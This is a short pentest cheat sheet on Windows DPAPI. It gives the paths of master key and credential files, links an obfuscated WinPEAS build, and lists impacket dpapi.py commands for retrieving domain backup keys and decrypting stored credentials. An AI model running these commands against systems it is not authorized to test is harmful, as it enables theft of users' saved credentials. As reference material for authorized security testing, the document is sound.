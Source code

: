 # DPAPI

### Master Key Location

```
C:\Users\$USER\AppData\Roaming\Microsoft\Protect\$SUID\$GUID
```

### Credentials Location

```
C:\Users\$USER\AppData\Local\Microsoft\Credentials\
C:\Users\$USER\AppData\Roaming\Microsoft\Credentials\
```

### Winpeas automatically gets the paths of DPAPI

Download Winpeas : ofs version is the obfuscated one : [WinPeas](https://github.com/peass-ng/PEASS-ng/releases/latest)

### Decrypting the creds

[dpapi.py](https://github.com/fortra/impacket/blob/master/examples/dpapi.py)

```bash
# Decrypt a master key
python3 dpapi.py masterkey -file "/path/to/masterkey_file" -sid $USER_SID -password $MASTERKEY_PASSWORD

# Obtain the backup keys & use it to decrypt a master key
python3 dpapi.py backupkeys -t $DOMAIN/$USER:$PASSWORD@$TARGET
python3 dpapi.py masterkey -file "/path/to/masterkey_file" -pvk "/path/to/backup_key.pvk"

# Decrypt DPAPI-protected data using a master key
python3 dpapi.py credential -file "/path/to/protected_file" -key $MASTERKEY
```


